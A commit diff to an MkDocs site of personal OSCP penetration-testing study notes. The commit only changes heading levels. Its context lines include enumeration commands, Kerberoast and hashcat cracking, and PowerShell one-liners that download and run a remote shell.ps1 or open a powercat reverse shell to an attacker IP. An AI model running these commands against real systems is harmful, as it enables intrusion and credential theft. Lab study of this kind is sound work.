

Before and after one commit to jackyho522/obsidian-notes, an MkDocs documentation site: the page built from docs/OSCP_notes/Note 1.md, in a window 1280 px wide and 900 px high, scrolled down 8557 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update Note 1.md

````diff
--- a/docs/OSCP_notes/Note 1.md
+++ b/docs/OSCP_notes/Note 1.md
@@ -137,7 +137,7 @@ retrieve the entire DNS zone data for the "cronos.htb" domain from the DNS serve
 dig @10.10.10.52 AXFR htb.local
 dnsenum 10.10.10.52
 ```
-## Check smb/rpc
+### Check smb/rpc
 ```bash
 #smb/rpc
 smbclient -L 10.10.10.52 -N
@@ -150,7 +150,7 @@ smbclient '\\10.129.143.225\shares' -U 'guest'%'' -c 'prompt OFF;recurse ON;lcd
 Maybe mount files for better view
 mount -t cifs //10.10.10.192/profiles$ /mnt
 ```
-## Check nmap scripts
+### Check nmap scripts
 ```bash
 #nmap scripts
 nmap -p 139,445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse 10.129.77.60
@@ -160,7 +160,7 @@ nmap -p 139,445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb
 #enumerate krb users
 nmap 192.168.x.x -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='oscp.exam',userdb=/usr/share/seclists/Usernames/Names/names.txt
 ```
-## Check ldapsearch
+### Check ldapsearch
 ```bash
 #ldapsearch
 ldapsearch -x -H ldap://10.10.10.52 -b "dc=htb,dc=local"
@@ -173,7 +173,7 @@ ldapsearch -H ldap://$IP -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.loca
 
 Search sth new and back to dig
 ```
-## Check ldap with nmap and enum4linux
+### Check ldap with nmap and enum4linux
 ```bash
 nmap -p 389 --script ldap-search 10.10.10.161
 enum4linux 10.10.10.161 > enum4linux-results.txt
@@ -198,7 +198,7 @@ imapacket-mssqlclient oscp.exam/xxx:xxxx@192.168.x.x –windows-auth
 john –format=krb5tgs –wordlist=~/rockyou.txt /tmp/hashes.kerberoast
 ```
 
-## Kerbrute/CME/RCE/Check other common exploits
+### Kerbrute/CME/RCE/Check other common exploits
 ```bash
 powershell -c iex( iwr http://10.10.14.9/shell.ps1 -UseBasicParsing )
 IEX (New-Object System.Net.Webclient).DownloadString("http://MYIP/powercat.ps1");powercat -c MYIP -p 4444 -e powershell
@@ -325,6 +325,7 @@ knock -v 192.168.0.116 4 27391 159 -u<br/>
 TCP & UDP<br/>
 knock -v 192.168.1.111 159:udp 27391:tcp 4:udp
 ## Brute Force
+### Johntheripper and cewl
 ```
 /usr/share/john/ssh2john.py key > hash
 john hash --wordlist=/usr/share/wordlists/rockyou.txt
@@ -341,7 +342,7 @@ cewl -d 2 -m 5 -w docswords.txt http://10.10.10.10
 ```
 cat wordlist.txt| sort | uniq > new_word.txt
 ```
-## Hydra brute force
+### Hydra brute force
 Find mode if you forget: hashcat --help | grep -i "Kerberos"<br/>
 Check type: http-post-form? ssh? etc<br/>
 hashcat -m 0 'hash$' /home/kali/Desktop/rockyou.txt // MD5 raw<br/>
````
